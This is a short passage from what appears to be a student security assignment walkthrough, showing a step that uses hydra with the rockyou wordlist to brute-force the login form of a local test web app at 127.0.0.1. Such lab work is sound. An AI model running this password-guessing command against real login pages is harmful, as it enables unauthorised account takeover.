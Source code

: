    ![img-description](/assets/img/DAT250-Assignment-1/image1.png)

4. **Use hydra to bruteforce account with common passwords**
   - Enter the following command in an terminal

```bash
hydra -l test -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 5000 http-post-form "/:login-username=test&login-password=^PASS^&login-submit=Sign+In:Sorry\,\ wrong\ password\!" -V -I
```
